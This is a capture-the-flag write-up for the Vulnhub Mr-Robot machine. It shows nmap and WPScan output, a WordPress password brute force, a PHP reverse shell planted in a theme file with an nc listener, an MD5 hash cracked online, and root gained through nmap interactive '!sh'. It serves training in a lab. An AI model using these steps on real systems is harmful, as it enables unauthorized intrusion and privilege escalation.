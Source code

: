 ```yaml
---
layout: post
title: Mr. Robot Vulnhub CTF
---
```


Mr-Robot: 1 is a CTF vulnerable machine hosted on Vulnhub developed by [Jason](https://www.vulnhub.com/author/jason,292/)

The image can be downloaded [here.](https://www.vulnhub.com/#modal151download)

After firing up this machine I found the I.P. it pulled. I do this with an app for iOS devices called Fing but there are tons of other ways to do this.

After firing it up I ran an Nmap scan to see which ports were open and got the following

```
$ nmap -T5 192.168.1.168

Starting Nmap 7.12 ( https://nmap.org ) at 2016-06-30 17:42 EDT
Nmap scan report for 192.168.1.168
Host is up (0.0015s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

Nmap done: 1 IP address (1 host up) scanned in 15.96 seconds
```

Goodie it looks like we have a website being hosted by this machine. After browsing to the site you will find a very nicely done webpage devoted
to Mr-Robot that you can devulge a lot of time into but thats not where we want to focus. The first thing you should do when looking at a website
is always look at the robots.txt file and see what you're not supposed to see. If you do that on this machine you are given a webpage that has two
pages, both of which we are going to visit.

First lets take a look at fsocity.dic, judging from the name this is probably a dictionary file so lets go ahead and save this file for later use(?)

```
wget 192.168.1.168/fsocity.dic
```

Note: Your I.P. will probably be different.

After that lets look at the much more promising page key-1-of-3.txt. Which believe it or not is the first of 3 keys we need to find. Browsing to the
site we get **073403c8a58a1f80d943455fb30724b9**. Now that we have that key where do we go from here?

Next I decided to fire up DirBuster to take a look around and see what other directories there were and maybe to see if we could figure out what this site was running on.

After firing up DirBuster I was able to figure out this was a Wordpress install and that there was a login page located at /wp-login.php.
The great/horrible thing about Wordpress is that it tells you when you have a correct username and when you entered a username that does
not exist. So after trying the default user and admin (both of which do not exist) I got creative and tried MrRobot which also did not work
but I remembered that the main characters name was elliot so why not give that a go, and what do you know that is a user in the database.
At this point i fired up WPScan and attempted to brute force the user elliot with the dictionary given earlier.

```
$ ruby wpscan.rb -u 192.168.1.168 --threads 20 --wordlist ~/Documents/Projects/CTF/CTF_Events/Mr-Robot-1/fsocity.dic --username elliot
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 2.9.1
          Sponsored by Sucuri - https://sucuri.net
   @_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_
_______________________________________________________________

[+] URL: http://192.168.1.168/
[+] Started: Sat Jul  2 00:53:46 2016

[+] robots.txt available under: 'http://192.168.1.168/robots.txt'
[!] The WordPress 'http://192.168.1.168/readme.html' file exists exposing a version number
[+] Interesting header: SERVER: Apache
[+] Interesting header: X-FRAME-OPTIONS: SAMEORIGIN
[+] Interesting header: X-MOD-PAGESPEED: 1.9.32.3-4523
[+] XML-RPC Interface available under: http://192.168.1.168/xmlrpc.php

[+] WordPress version 4.3.5 (Released on 2016-06-21) identified from rss generator, rdf generator, atom generator, links opml

[+] Enumerating plugins from passive detection ...
[+] No plugins found
[+] Starting the password brute forcer
  [+] [SUCCESS] Login : elliot Password : ER28-0652

  Brute Forcing 'elliot' Time: 08:28:20 <============== > (858145 / 858161) 99.99%  ETA: 00:00:01
  +----+--------+------+-----------+
  | Id | Login  | Name | Password  |
  +----+--------+------+-----------+
  |    | elliot |      | ER28-0652 |
  +----+--------+------+-----------+

[+] Finished: Sat Jul  2 09:22:07 2016
[+] Requests Done: 858195
[+] Memory used: 14.832 MB
[+] Elapsed time: 08:28:21
```
I ended with these results. I let it run over night or else you probably could have upped the threads to get this done faster.

First glance it looks like elliot is must likely an admin of this blog which is great news for us. After browsing to appearance and
themes I decided I am going to edit the archive.php page in hopes of adding a reverse shell.

After going to this [page](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) and
grabbing the php reverse shell I pasted that in the archive.php page and changed the I.P. to
mine. At this point I opened up the nc listener like the post says too and went to the page.

After doing this a reverse shell opened up in my terminal

```
$ nc -v -n -l -p 1234
Connection from 192.168.1.168:42897
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC
2015 x86_64 x86_64 x86_64 GNU/Linux
 14:41:38 up  9:54,  0 users,  load average: 1.00, 1.01, 1.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
$
```

After getting this shell I decided to checkout the home folder. After arriving here I saw the key-2 file and got very excited! However,
after trying to cat it I realized I did not have permission to read it. I did notice there was a md5 password file for user robot (whos
home directory we were in). After catting this file I decided to go to (http://www.md5cracker.org) and have them crack it. Luckily this
only took seconds and I got the password of

```
abcdefghijklmnopqrstuvwxyz
```
So at this point I tried to su robot and kept getting a not in terminal error. I figured this had something to do with TTY so I did a quick
google search that led me to another article on pentestmonkey with a python command to open up a terminal. Below is going to be the log of
everything I did to get key to after gaining access to the machine besides the cracking of the md5 hash since that was not done in the terminal

```
$ nc -lvnp 1234
Connection from 192.168.1.168:42903
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
14:57:45 up 10:10,  0 users,  load average: 1.10, 1.06, 1.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/$ cd /home/robot
cd /home/robot
robot@linux:~$ ls
ls
key-2-of-3.txtpassword.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$
```

After searching around the box a bit and looking at the SUID binaries I remembered an old flaw with Nmap that allowed a user to execute commands as
root in interactive mode. After launching the interactive mode you can enter !sh to gain a shell. At this point I navigated to the root directory
catted the key-3-of-3.txt file and got the final key. Below will be a log of everything I did after getting the second key.

```
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# cd /root/
cd /root/
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
#
```

That just about wraps up this Vulnhub image. Hopefully everyone enjoys my first writeup for an image. I am still fairly new at CTFs and boot2root
machines but I plan on doing a lot more of these and to continue writing writeups! Thanks everyone for reading and if your interested in some security
content check out my twitter or the rest of my blog.
